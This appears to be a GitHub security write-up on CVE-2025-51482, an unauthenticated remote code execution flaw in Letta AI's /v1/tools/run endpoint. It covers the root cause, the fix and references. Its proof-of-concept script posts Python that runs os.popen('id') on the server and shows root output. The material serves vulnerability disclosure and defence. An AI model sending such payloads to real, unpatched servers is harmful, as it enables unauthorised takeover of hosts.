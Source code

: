 # Remote Code Execution (RCE) in Letta AI's `/v1/tools/run`(CVE-2025-51482)

**Initially Found by: Gecko Security (credited on GitHub Pull Request)**

**Affected version: <0.7.12**


## 1\. Vulnerability Overview

A critical **Remote Code Execution (RCE)** vulnerability, identified as **CVE-2025-51482**, was discovered in **Letta application version 0.7.12**. This flaw specifically affects its `/v1/tools/run` API endpoint. The vulnerability allowed remote attackers to execute arbitrary Python code and system commands on the host server running the Letta application.

The core issue stems from the endpoint's design, which accepts user-controlled Python source code and environment variables and then executes this code using Python's built-in `exec()` function within a sandboxed environment. Despite attempts at sandboxing, the application failed to properly restrict access to dangerous modules and system functionality. This oversight meant that if the Letta container was running with elevated privileges (e.g., as root), the attacker could achieve root-level code execution.

The severity of this vulnerability was compounded by two critical factors:

1.  The `/v1/tools/run` endpoint was **accessible without any authentication**.
2.  In local sandbox deployments, this endpoint was **exposed on the network by default**.

This combination presented a severe risk, enabling unauthorized individuals to potentially achieve full system compromise.

-----

## 2\. Root Cause Analysis (Source-Sink Analysis)

The RCE vulnerability in Letta 0.7.12 originates from an improper control of code generation and execution, allowing user-supplied input to directly influence code execution in a poorly contained environment. The flow of the vulnerability can be traced through the following source-sink analysis:

  * **1. Source:**

      * **Function:** `run_tool_from_source`
      * **File Path:** `letta/server/rest_api/routers/v1/tools.py`
      * **Description:** This function serves as the initial entry point, accepting user-controlled `source_code` and `env_vars` via a POST request to the `/v1/tools/run` endpoint.

  * **2. Intermediate (Execution Routing):**

      * **Function:** `ToolExecutionSandbox.run`
      * **File Path:** `letta/services/tool_executor/tool_execution_sandbox.py`
      * **Description:** This method acts as an intermediary, routing the execution of the user-provided code to either a local sandbox or an external (e2b) sandbox environment. The vulnerability specifically lies in the local sandbox path.

  * **3. Intermediate (Sandbox Preparation):**

      * **Function:** `ToolExecutionSandbox.run_local_dir_sandbox`
      * **File Path:** `letta/services/tool_executor/tool_execution_sandbox.py`
      * **Description:** This function is responsible for preparing the local sandbox environment before the actual code execution. Crucially, at this stage, the existing sandbox mechanisms were insufficient to adequately restrict dangerous operations.

  * **4. Sink (Code Execution):**

      * **Function:** `ToolExecutionSandbox.run_local_dir_sandbox_directly`
      * **File Path:** `letta/services/tool_executor/tool_execution_sandbox.py`
      * **Description:** This is the ultimate sink where the user-controlled code is executed directly using Python's built-in `exec()` function. The lack of robust input sanitization and an ineffective sandbox allowed malicious payloads to break out and execute arbitrary system commands.

The primary flaw was the reliance on an `exec()`-based sandbox that failed to properly restrict access to critical Python modules (like `os` and `subprocess`) and built-in functions that could be used for system interaction. Since the endpoint also lacked authentication and was exposed by default in local deployments, it became an easily exploitable target.

-----

## 3\. Proof of Concept (PoC)

The vulnerability can be exploited by sending an unauthenticated POST request to the `/v1/tools/run` endpoint with a JSON payload containing specially crafted malicious Python code. The following Python script demonstrates how to execute the `id` command on the host system, revealing the user under which the Letta server is running (which can be `root` if misconfigured).

**PoC Code:**

```python
import requests
import json

url = "http://localhost:8283/v1/tools/run" # Adjust URL if Letta server is on a different host/port

# Malicious payload that executes the 'id' command
payload = {
    "source_code": "def test():\n    \"\"\"Test function to execute system commands.\"\"\"\n    import os\n    return os.popen('id').read()",
    "args": {},
    "env_vars": {"PYTHONPATH":"/usr/lib/python3/dist-packages"},
    "name": "test"
}

headers = {
    "Content-Type": "application/json"
}

response = requests.post(url, json=payload, headers=headers)

print("Status code:", response.status_code)
print("Response:")
print(json.dumps(response.json(), indent=2))
```

**Response Showing Successful Execution (Example):**

The successful execution of the `id` command would result in a response similar to this, indicating that the command was run and its output returned:

```json
{
  "id": "null",
  "date": "2025-05-13T15:45:30+00:00",
  "name": null,
  "message_type": "tool_return_message",
  "otid": null,
  "sender_id": null,
  "step_id": null,
  "tool_return": "uid=0(root) gid=0(root) groups=0(root)\n",
  "status": "success",
  "tool_call_id": "null",
  "stdout": [],
  "stderr": []
}
```

This response confirms that arbitrary code (in this case, `os.popen('id').read()`) was successfully executed on the server, potentially with root privileges (`uid=0(root)`), demonstrating the severity of the RCE.

-----

## 4\. Mitigation and Remediation

The security fix implemented for this vulnerability (`pull/2630`, `commit 2fb160cd543c4a1ef5338bfc8b6686cd5d50aec5`) significantly strengthened the sandboxing of Python code execution within the `/v1/tools/run` endpoint.

**Key Remediation Steps Implemented:**

1.  **Shift from Module Restriction to Function Blocking:** The remediation moved away from broadly restricting entire modules. Instead, it was refined to specifically **block dangerous functions** (e.g., those allowing system command execution). This allows legitimate functionalities (like `os.getenv` for environment variable access or `requests` for network calls) to continue working, while still effectively preventing RCE.
2.  **Introduction of `RESTRICTEDPYTHON_LOCAL_ENABLED`:** A new environment variable, `RESTRICTEDPYTHON_LOCAL_ENABLED`, was introduced. When this flag is set to `True`, it triggers the use of `RestrictedPython` during code execution. This library is specifically designed to remove dangerous built-ins and disable risky methods from modules like `os` and `subprocess`, providing a more balanced approach between security and necessary functionality.


## 8\. Resources

  * **Official CVE Details:** [https://nvd.nist.gov/vuln/detail/CVE-2025-51482](https://nvd.nist.gov/vuln/detail/CVE-2025-51482)
  * **GitHub Pull Request:** [https://github.com/letta-ai/letta/pull/2630](https://github.com/letta-ai/letta/pull/2630)
  * **GitHub Commit:** [https://github.com/letta-ai/letta/pull/2630/commits/2fb160cd543c4a1ef5338bfc8b6686cd5d50aec5](https://github.com/letta-ai/letta/pull/2630/commits/2fb160cd543c4a1ef5338bfc8b6686cd5d50aec5)
  * Letta GitHub Repository: [https://github.com/letta-ai/letta](https://github.com/letta-ai/letta)
  * Tenable Advisory: [https://www.tenable.com/cve/CVE-2025-51482](https://www.tenable.com/cve/CVE-2025-51482)

